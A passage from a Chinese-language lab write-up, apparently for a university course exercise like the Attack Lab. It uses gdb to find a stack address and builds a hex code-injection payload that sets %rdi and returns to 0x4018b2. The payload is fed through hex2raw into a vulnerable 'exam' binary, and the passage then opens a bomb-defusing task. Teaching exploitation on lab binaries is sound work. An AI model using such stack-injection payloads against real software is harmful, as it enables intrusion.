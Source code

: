 此时执行到`401830:    sub    $0x28,%rsp`处，打印`%rsp`的值（地址）：

```shell
(gdb) p/x $rsp
```

得到输出如下：

```shell
$1 = 0x55585fd0
```

即`%rsp`的地址是`0x55585fd0`，此即缓冲区的起始地址。

---

编辑用于攻击的字符串文件`data.txt`（**注意注释周围的空格、机器为小端法**）：

```shell
48 bf df ac f9 f5 00        /* movabs $0xf5f9acdf,%rdi */
00 00 00
68 b2 18 40 00              /* pushq  $0x4018b2 */
c3                          /* retq */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
d0 5f 58 55 00 00 00 00     /* address of %rsp in doSomething */
```

利用`hex2raw`输入到`exam`*（为什么有人还在加`-q`？）*：

```shell
./hex2raw < data.txt | ./exam
```

得到输出如下：

```shell
Input sth. please.

Ohh! You have found the entrance.
```

完成。

---

如果你觉得攻击实验很有趣，不妨做一下更有趣的Attack Lab。

# 任务二——拆弹

和Bomb Lab极其相似，细节不再赘述，可以再复习一遍[Bomb Lab](https://superpung.com/bomb-lab/)。

> 关于寄存器的常识：
>
> - 每个寄存器都有它特有的功能；
> - `%rsp`：栈顶指针；
> - `%rdi`：函数的第一个参数；
> - `%rsi`：函数的第二个参数；
> - `%rdx`：函数的第三个参数；
> - `%rcx`：函数的第四个参数；
> - `%rax`：函数的返回值。
